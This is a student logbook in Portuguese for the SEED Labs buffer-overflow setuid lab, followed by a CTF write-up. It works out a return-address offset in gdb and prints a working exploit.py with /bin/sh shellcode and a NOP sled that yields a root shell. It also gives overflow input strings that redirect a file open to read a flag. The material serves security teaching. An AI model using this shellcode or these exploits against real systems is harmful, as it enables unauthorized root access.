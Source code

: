 # SEED Labs - Buffer Overflow Setuid Lab

## Task 1

```bash
[10/10/22]seed@VM:~/.../shellcode$ a32.out
$ id -u                                                                                                          
1000
```
```bash
[10/10/22]seed@VM:~/.../shellcode$ sudo chown root a32.out
[10/10/22]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out
[10/10/22]seed@VM:~/.../shellcode$ a32.out
# id -u                                                                                                          
0
```

## Task 2

```bash
[10/10/22]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
[10/10/22]seed@VM:~/.../code$ sudo chown root stack
[10/10/22]seed@VM:~/.../code$ sudo chmod 4755 stack
[10/10/22]seed@VM:~/.../code$ ls -l
total 32
-rwxr-xr-x 1 seed seed   270 Oct  3 05:58 brute-force.sh
-rwxr-xr-x 1 seed seed   891 Oct  3 05:58 exploit.py
-rw-r--r-- 1 seed seed   965 Oct  3 05:58 Makefile
-rwsr-xr-x 1 root seed 15908 Oct 10 07:04 stack
-rw-r--r-- 1 seed seed  1132 Oct  3 05:58 stack.c
```

## Task 3

Usando o comando `p` do debugger `gdb` foi possível obter o endereço guardado no registo `ebp` e o endereço do `buffer`. Tendo em conta que o valor do `frame pointer` é 0xffffca98, o valor do `return address` será 0xffffca98 + 4. De modo a descobrir a `distância` entre o endereço base do buffer e o return address, calculou-se a distância entre o ebp e o buffer (0xffffca98 - 0xffffca2c): 108. Uma vez que, o return address está 4 bytes acima do ebp, a `distância` é 108 + 4 = 112.

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffca98
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca2c
gdb-peda$ p/d 0xffffca98 - 0xffffca2c
$3 = 108
gdb-peda$ quit
```

O conteúdo do `shellcode[]` (código malicioso) foi substituído pelo código shellcode 32-bit, cujo tamanho é 27 bytes. Uma vez que o tamanho do array é 517, o `start` deverá ser <= 490 (517 - 27). Neste caso, colocou-se o código malicioso no final do array (start = 490) e o restante é preenchido com 0x90 (NOP´s).
O valor de `ret` calculado acima é 0xffffca98 + 8, no entanto, tendo em conta a nota 2 do guião - "the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb)(...)so the actual frame pointer value will be larger.". Sendo assim o valor de `ret` deverá ser > 0xffffca98 + 8. O valor usado foi 0xffffca98 + 200, foi obtido por tentativa e erro e a condição do resultado 0xffffca98 + nnn não conter nenhum byte a zero está garantida. 

![](./screenshots/logbook5_task3.png) Figura 1: Estrutura do badfile

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca98 + 200           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Como se pode confirmar, depois de correr o programa `stack-L1` temos acesso a uma root shell - `euid=0(root)`

```sh
[10/16/22]seed@VM:~/.../code$ ./exploit.py 
[10/16/22]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                                                             
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker
```
# CTF - Week 5

# Task 1
Ao analisar o checksec, pudemos confirmar que a arquitetura do ficheiro é x86 (Arch), não existe um cannary a proteger o return address (Stack), a stack tem permisssão de execução (NX), e as posições do binário não estão randomizadas (PIE), por fim existem regiões de memória com permissões de leitura, escrita e execução (RWX), neste caso referindo-se à stack.

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

Pela analise do programa, verificamos que ele não verifica overflows, o ficheiro que é aberto é guardado numa array que está diretamente acima do buffer, sendo este buffer lido pelo input. A flag está guardada num ficheiro flag.txt. Assim só precisamos de dar input de uma string do género "aaaaaaaaaaaaaaaaaaaaflag.txt" (primeiros 20 caracteres são guardados no buffer (tamanho 20), e os seguintes são guardados no nome do ficheiro como não há verificação de overflow, sendo assim aberto o ficheiro flag.txt que nos dá acesso a flag).

![](./screenshots/CTF5.png) 

# Task 2

Checksec dá nos a mesma informação que na tarefa anterior. No entanto o programa tem outro mecanismo de defesa, isto é, existe outro buffer entre o buffer a que damos overflow, e o que pretendemos mudar. Este outro buffer é verificado, sendo só aberto o ficheiro depois deste ser verificado.

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

Se não mudarmos o input, o valor que é comparado ao 0xfefc2223 é 0xdeadbeef (valor inicial do val). Assim, no exploit-example.py temos de mudar o input, com base no mesmo raciocínio da tarefa anterior, só que desta vez temos de escrever algo entre os 20 caracteres guardados no buffer e flag.txt, que irão substituir o que está em val. Assim, uma solução como a da figura abaixo será possivel.

![](./screenshots/CTF5a.png) 

Ao escrever "aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt", estamos a guardar no buffer os primeiros 20 caracteres, 0xfefc2223 em val (tornando então a condição no if verdadeira), e flag.txt no meme_file. Assim, abrimos o flag.txt e obtemos acesso a flag.

![](./screenshots/CTF5b.png) 
